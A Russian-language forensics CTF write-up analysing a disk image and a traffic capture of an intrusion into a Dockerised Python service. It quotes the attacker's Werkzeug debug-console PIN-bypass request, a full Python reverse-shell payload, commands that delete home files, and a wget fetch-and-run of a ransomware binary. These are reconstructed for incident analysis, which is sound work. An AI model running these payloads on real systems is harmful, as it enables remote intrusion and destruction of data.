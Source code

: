 # Начало

## Изучение диска

Сначала я увидел `image.img` и `dump.pcapng` (на кали).

Сразу я решил открыть `image.img` через `testdisk` и скопировал себе в папку `image/` некоторые директории из корня:
`bin.usr-is-merged/`, `home/`, `media/`, `opt/`, `root/`, `tmp/`, `etc/`, `lib.usr-is-merged`, `mnt/`, `proc/`, `sbin.usr-is-merged`, `var/`

Сразу обратил внимание, что в `opt/` есть Addition для VirtualBox (эта информация не пригодилась)

Далее я обратил внимание на содержимое `/home/ioal/`. Там была папка `app/`, внутри которой вроде было приложение в докере, но все файлы оканчивались на `.enc` и внутри ничего не было понятно

## Запуск системы

После этого я решил запустить эту систему через

```
qemu-system-x86_64 \
 -m 4096 \
 -drive format=raw,file=image.img \
 -cpu host \
 -smp 6 \
 -machine type=q35,accel=kvm
```

Внутри была Ubuntu 24.04.1 LTS (Noble Numbat) и единственный аккаунт `ioal`

## Попытка входа

Пароль от него я не знал, поэтому решил скопировать себе `/etc/password` и `/etc/shadow`

Я прописал `fdisk --list image.img` и узнал оффсет раздела с убунтой - `4096` (`4096 * 512 = 2097152`)

Далее я создал папку `/mnt/tmp` (на кали) и прописал `sudo losetup --offset 2097152 /dev/loop667 image.img` и `sudo mount /dev/loop667 /mnt/tmp`

Таким образом я скопировал себе `/etc/password` и `/etc/shadow` и попытался узнать пароль от `ioal` с помощью `john`, но, к сожалению, не вышло

Тогда я просто решил `sudo chroot /mnt/tmp/` и через `useradd qwerty`, `passwd qwerty` создал себе пользователя, которому через `usermod qwerty -aG sudo` выдал доступ к `sudo` (я потом еще пожалел о том, что сразу не создал `/home/qwerty`, потому что файловый менеджер уничтожил мне виртуалку сообщениями об ошибке)

Я заметил, что хост называется `fileshare`, а так же его айпи:
- enp0s2: `10.0.2.15/24` (DNS `10.0.2.3`)
- br-4d2c7d1f6f87: `172.18.0.1/16`
- docker0: `172.17.0.1/16`

В `/root/.bash_history` я обнаружил следы, вероятно, организаторов:
```
cd nto-forensics/
ls
cp -r project /home/ioal/app
cd /home/ioal
ls
cd app
ls
cd ../
chown -h
chown --help
chown -hR ioal ./app
ls -al
exit
cd nto-forensics/
ls
ls -al
cd ../
```

И заметил, что в `/home/ioal/` нет никаких файлов

## Создание лога журнала

Дальше я сделал себе свой `system.log` при помощи `sudo journalctl --no-tail > /home/qwerty/main.log`, после чего срезал его до `/home/qwerty/prev.log` (без запуска 26 марта и позже, т.е. только 16 января и 22 января)

Я очень долго копался в логах журанала, но ничего толкового так и не нашел (нашел пару выключений при помощи кнопки выключения, несколько резких выключений, действия AppArmor'а (обычно над фаерфоксом) и всякое другое)

# Продолжение

После всего этого я устал и решил наконец открыть `dump.pcapng` (на кали)

Сначала я вслучайную нажимал на пакеты и в какой-то момент обнаружил в TCP DATA строку
```
root@7a5a67189bc9:/app#
```

И понял, что надо просто просмотреть все пакеты и оценить находки

## Действия в дампе трафика

Последовательно переключая пакеты я понял, что:

Все проделки идут от `10.10.0.12` через `10.10.10.3` (просто ретрансляция) на `172.18.0.3`

Как помнится по айпи на хосте, `172.18.0.0` - это мост докера (значит `172.18.0.3` - это сам сервис)

В докере был запущен python сервис, у которого был путь /console, доступ к которой получил злоумышлиник (`10.10.10.12` через `10.10.10.3`) и нашел там "SECRET"="yqqPfQiFZmXsmnZQYMPF" в разделе <script> в теле HTML

Далее злоумышлиник подобрал url так, что смог обойти пин-код при помощи этого secret'а
```
GET /console?__debugger__=yes&cmd=pinauth&pin=123-456-789&s=yqqPfQiFZmXsmnZQYMPF
```
и получил доступ к python консоли, в которую вписал реверс-шелл
```
/console?&__debugger__=yes&cmd=import%20socket%2Csubprocess%2Cos%3Bs%3Dsocket.socket(socket.AF_INET%2Csocket.SOCK_STREAM)%3Bs.connect((%2210.10.10.12%22%2C9001))%3Bos.dup2(s.fileno()%2C0)%3B%20os.dup2(s.fileno()%2C1)%3Bos.dup2(s.fileno()%2C2)%3Bimport%20pty%3B%20pty.spawn(%22bash%22)&frm=0&s=yqqPfQiFZmXsmnZQYMPF
```
Команда реверс-шелла:
```
import socket,subprocess,os
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("10.10.10.12",9001))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
import pty
pty.spawn("bash")
```

И, получил доступ к `root` в докере при помощи `ls /dev`, 'mount /dev/sda2 /mnt`, `cd /mnt/home`

Потом прописал эти команды:
```
cd ioal
rm .*
cd ../
cd ioal
wget http://81.177.221.242:8125/app
```
`wget` пожаловался на то, что директория `app` уже есть (в ней был сервис-докер)
```
ls
cd ../
wget http://81.177.221.242:8125/app
./app
chmod +x app
./app
exit
```
При запуске этот `app` несколько раз написал
```
CUSTOM_write found, patched.
ok
```
И затем
```
Encrypting .//app: Encrypting .//ioal/app/docker-compose.yml: Encrypting .//ioal/app/server/requirements.txt: Encrypting .//ioal/app/server/wait-for-postgres.sh: Encrypting .//ioal/app/server/Dockerfile: Encrypting .//ioal/app/server/templates/index.html: Encrypting .//ioal/app/server/__init__.py: Encrypting .//ioal/app/server/assets/css/listr.pack.css: Encrypting .//ioal/app/server/assets/css/custom.css: Encrypting .//ioal/app/server/assets/css/jquery.filer.css: Encrypting .//ioal/app/server/assets/fonts/fontawesome-webfont.woff: Encrypting .//ioal/app/server/assets/fonts/jquery.filer-icons/jquery-filer.ttf: Encrypting .//ioal/app/server/assets/fonts/jquery.filer-icons/jquery-filer-preview.html: Encrypting .//ioal/app/server/assets/fonts/jquery.filer-icons/jquery-filer.svg: Encrypting .//ioal/app/server/assets/fonts/jquery.filer-icons/jquery-filer.eot: Encrypting .//ioal/app/server/assets/fonts/jquery.filer-icons/jquery-filer.woff: Encrypting .//ioal/app/server/assets/fonts/jquery.filer-icons/jquery-filer.cs
```

С помощью этих команд он удалил все файлы в домашней директории `ioal`, после чего поднялся в `/home` и запустил шифровальщик

# Решение задач

Я просто начал выписывать соответствующие пакеты + их содержимое и их номер + время

Когда я дошел до `app` я решил погуглить `"CUSTOM_write found"` и нашел единственную ссылку на проект на гитхабе ([linux-anti-debugging](https://github.com/tobyxdd/linux-anti-debugging/)), который использовал `ptrace` для обфускации

## Задание 2-6

Как настало время решать 2-6 я проконсультировался с `gemini-2.5-pro-exp-03-25` и мне было предложено использовать `hexdump`, где я и увидел сигнатуру `beef dead bade c0fe` во всех зашифрованных файлах
